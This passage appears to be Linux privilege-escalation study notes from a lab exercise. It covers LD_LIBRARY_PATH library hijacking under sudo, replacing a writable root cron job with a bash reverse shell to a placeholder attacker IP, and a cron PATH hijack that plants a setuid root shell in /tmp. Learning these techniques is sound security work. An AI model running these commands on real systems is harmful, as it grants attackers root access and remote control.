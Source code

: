`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache32 with sudo and set LD_LIBRARY_PATH to /tmp (where we output the compiled shared 
object)

`sudo LD_LIBRARY_PATH=/tmp apache2`

Try renaming /tmp/libcrypt.so.1 to the name of another shared library

Works:

libuuid.so.1

Doesn't work:

libaprutil-1.so.0 (apache2: symbol lookup error: apache2: undefined symbol: 
apr_bucket_setaside_notimpl)

If we add the undefined functions to the library_path.c file the rename works, e.g

`echo "void apr_bucket_setaside_notimpl(){}" > library_path.c`

### Cron Jobs - File Permissions

View the contents of the system-wide crontab

`cat /etc/crontab`

If you find any cron jobs with elevated privileges that are writable, you can replace the 
contents with a malicious script like a reverse shell

```
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
```

### Cron Jobs - PATH Environment Variable

The crontab PATH variable is stored in /etc/crontab

If the PATH has accessible directories that are checked before the location of any cron 
jobs running with elevated privileges you can create a malicious imitation in that 
accessible directory with the same name as the cron job and it will be executed instead

Example:

The PATH in the crontab is:

`/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin `

And the cron job calls overwrite.sh which is located in /usr/local/bin. If another file 
caled overwrite.sh was in the home dir it will be executed instead of the original.

~/overwrite.sh:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
